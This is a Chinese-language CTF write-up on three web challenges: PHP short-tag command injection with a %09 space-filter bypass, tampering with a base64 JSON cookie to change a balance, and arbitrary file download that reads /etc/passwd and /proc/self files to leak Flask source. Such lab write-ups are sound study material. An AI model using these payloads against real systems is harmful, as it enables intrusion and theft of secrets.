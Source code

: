 
# [红明谷CTF 2021]write_shell
代码审计发现是向某个随机生成的目录index.php写内容，先action=pwd获取自己的目录
![在这里插入图片描述](https://img-blog.csdnimg.cn/0a92c4964bee446e8cb6f3d014692afb.png)
然后尝试短标签`<?=system("ls")?>`
![在这里插入图片描述](https://img-blog.csdnimg.cn/7c2acb0e181e4129a209b307f716953d.png)
空格`%09`绕过查看根目录`?action=upload&data=<?=system("ls%09/")?>`
![在这里插入图片描述](https://img-blog.csdnimg.cn/825de783a386459baa21ffb0f602d66c.png)
查flag
![在这里插入图片描述](https://img-blog.csdnimg.cn/e195ce51056e4ad9a77b653da1218973.png)

#  [watevrCTF-2019]Cookie Store

f12 network发现有一个302跳转buy页面，直接访问无果

![在这里插入图片描述](https://img-blog.csdnimg.cn/e7959815225741d586225049bf8ae75f.png)

抓包发现302重设了cookie
![在这里插入图片描述](https://img-blog.csdnimg.cn/613c507517914dc7a77c59f2400e3246.png)
base64解码看到json字符串
![在这里插入图片描述](https://img-blog.csdnimg.cn/08ac2f0d4bae479b96b33aca826cd01b.png)
尝试改金额放到cookie里
![在这里插入图片描述](https://img-blog.csdnimg.cn/64032211635b4ba08117840726e3686e.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/7575b1aa9c4244d1b04431eb2878cd35.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/c376fca073da464cb013a09b18051cba.png)
# [网鼎杯 2020 白虎组]PicDown
文件包含任意文件下载
![在这里插入图片描述](https://img-blog.csdnimg.cn/2490d04ce1ee48baac7eba48adb1abd7.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/3c7096a3dbe043f0be3afef8da780c89.png)
尝试/etc/passwd下载到beautiful.jpg里
尝试php://filter伪协议读源码无果
直接尝试/flag下载

看别的师傅的wp发现这道题本意并非如此
[参考博客](https://blog.csdn.net/rfrder/article/details/112310943)

/proc/self/cmdline  获取进程启动命令
![在这里插入图片描述](https://img-blog.csdnimg.cn/c808aea6ae39423eaaa6f0dc93be7c87.png)
读/proc/self/cwd/app.py也就是当前运行程序环境下的app.py
```python

from flask import Flask, Response
from flask import render_template
from flask import request
import os
import urllib

app = Flask(__name__)

SECRET_FILE = "/tmp/secret.txt"
f = open(SECRET_FILE)
SECRET_KEY = f.read().strip()
os.remove(SECRET_FILE)

```